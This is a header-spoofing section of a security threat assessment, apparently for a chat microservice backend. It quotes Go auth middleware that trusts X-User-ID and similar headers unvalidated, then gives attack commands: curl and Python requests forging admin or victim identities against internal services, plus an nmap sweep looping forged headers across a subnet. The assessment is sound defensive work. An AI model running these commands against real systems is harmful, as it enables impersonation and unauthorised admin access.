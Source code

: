 ### 2.4 Header Spoofing

**Threat Description**: Manipulation of HTTP headers to bypass authentication and authorization controls.

#### Vulnerability Assessment

**Current Header-Based Authentication:**
```go
// backend/chat-svc/internal/middleware/auth.go
func (a *AuthMiddleware) handleGatewayAuth(w http.ResponseWriter, r *http.Request, next http.Handler) {
    userIDStr := r.Header.Get("X-User-ID")      // ❌ Trusted without validation
    userEmail := r.Header.Get("X-User-Email")   // ❌ No signature verification
    userName := r.Header.Get("X-User-Name")     // ❌ No source authentication
}
```

**Critical Security Gap:**
Services trust authentication headers from the API Gateway **without any validation mechanism**.

#### Attack Scenarios

1. **Direct Service Access with Forged Headers**
   ```bash
   # Bypass API Gateway entirely
   curl -X GET http://user-svc:8080/api/v1/admin/users \
     -H "X-User-ID: admin-uuid-here" \
     -H "X-User-Email: admin@company.com" \
     -H "X-User-Role: administrator"
   ```

2. **Container Network Header Injection**
   ```python
   # Malicious container in same network
   import requests
   
   response = requests.get(
       'http://user-svc:8080/api/v1/sensitive-data',
       headers={
           'X-User-ID': 'victim-user-id',
           'X-User-Email': 'victim@example.com',
           'X-Admin': 'true'  # Privilege escalation
       }
   )
   ```

3. **Gateway Bypass via Service Discovery**
   ```bash
   # Enumerate and attack services directly
   nmap -p 8080-8090 172.20.0.0/24
   
   # Attack discovered services
   for ip in $(nmap -sn 172.20.0.0/24 | grep -oP '(\d+\.){3}\d+'); do
     curl -H "X-User-ID: admin" http://$ip:8080/health
   done
   ```
